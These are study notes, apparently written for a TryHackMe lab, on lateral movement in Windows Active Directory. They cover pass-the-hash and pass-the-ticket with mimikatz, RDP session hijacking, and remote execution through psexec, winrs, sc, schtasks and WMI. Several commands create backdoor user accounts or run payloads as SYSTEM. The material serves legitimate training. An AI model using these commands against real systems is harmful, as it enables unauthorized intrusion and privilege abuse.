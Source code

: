 # Lateral Movement and Pivoting

`ssh za\<AD Username>@thmjmp2.za.tryhackme.com` to SSH into an AD managed machine

* `za` = the **Active Directory domain name**
* `\\` = an **escaped backslash** (required in Bash/Zsh because `\` is normally interpreted as an escape character)
* `<AD Username>` = the **domain account username**

## Abusing Windows Authentication Protocols

### Pass-the-Hash (PtH)

Only works on NTLM enabled services and Domains. Involves extracting NTLM password hashes and replying that hash to the authentication server to get authenticated. Can be extracted with `mimiktaz`

### Pass-the-Ticket (PtT)

Only works on Kerberos enabled services and Domains. Involves extracting Kerberos tickets and sessions keys (view [#kerberos-authentication](../../principles-of-windows.md#kerberos-authentication "mention") to learn more about how Kerberos works) from LSASS memory using `mimikatz`  with `SYSTEM` to authenticate to other services. We want Ticket-Granting-Tickets (TGT) and not Ticket-Granting-Service (TGS) to allow use to access whichever services we wnat.

### Pass-the-Key (PtK)

Similar to PtH but works on Kerberos networks. Involves extracting the encryption key used to encrypt timestamps ([#kerberos-authentication](../../principles-of-windows.md#kerberos-authentication "mention")) and using it to request the KDC for a TGT.

## Port Forwarding

Many of these attacks detailed in this document involve ports being open from our attacking machine (SMB, RDP, WinRM, RPC) but if they are blocked we might need to port forward by using the compromised hosts as a pivot host.

### SSH Tunneling

We want to start a tunnel from our compromised host to our attacking machine because typically compromised hosts will not have SSH servers running on them. To ensure safety we should create an account on our attacking machine with very limited permissions that the compromised host will connect to.

&#x20;

## Abusing User Behavior

### Network Shares

A lot of network shares are writable, so we can plant force users into executing some payloads.

{% hint style="info" %}
If there is a shortcut an executable (so users can execute a script without copying to machine) we can overwrite that script and run whatever we want, when ran the executable gets copied into the `%temp%` directory
{% endhint %}

### Remote Desktop Protocol (RDP) Hijacking

When an administrator uses RDP and closes the client without logging off, the session is still open, an attacker can take over the open session. (Note: **Must have SYSTEM on Windows 2016 or earlier**)

`query user` to find session names and state (`Disc` means left open and not being used. `Active` means someone is currently using it)

`tscon 3 /rdp-tcp#6` to connect using the tscon.exe

* The command states that the graphical session 3 owned by the corresponding user, should be connected with the RDP session rdp-tcp#6, owned by the administrator user

## Spawning Processes Remotely

### psexec

Is a tool used to execute processes remotely allowing an administrator to run commands remotely on any PC where he has access.

`psexec64.exe \MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`&#x20;

### Windows Remote Management (WinRM)

A web-based protocol used to send Powershell commands to Windows hosts remotely. Enabled by default.

`winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`

### Service Control (sc)

A tool used to manage Windows Services. It can be leveraged to run arbitrary commands since services will execute a command when started. Services are run by `SYSTEM` and allow for persistence.

```sh
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

{% hint style="info" %}
Starting reverse shells with services is quite hard because Service Control Manager (SCM) expects any program running as a service to communicate with it in a specific way (e.g., by responding to start/stop signals). A normal executable doesn't do this. When the SCM starts a non-service executable, it doesn't receive the expected "I have started" signal, so it assumes the service has failed and terminates the process almost immediately.
{% endhint %}

### Scheduled Tasks

```shell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "THMtask1" 
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Windows Management Instrumentation (WMI)

A windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. It allows administrators to perform management tasks that attacks can abuse to perform lateral movement.

To connect to WMI via Powershell, we need to create a `PSCredential` Object

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then need to Establish our `$Session` variable

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

Here is how we can leverage it

```powershell
#Remote Process Creation: send a request to the Win32_Process class
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}

#Remote Service Creation
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

##Handling the service
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
##Stopping and deleting the service
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete

#Remote Scheduled Task
##Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
##Delete the task
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"

#Installing MSI packages
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
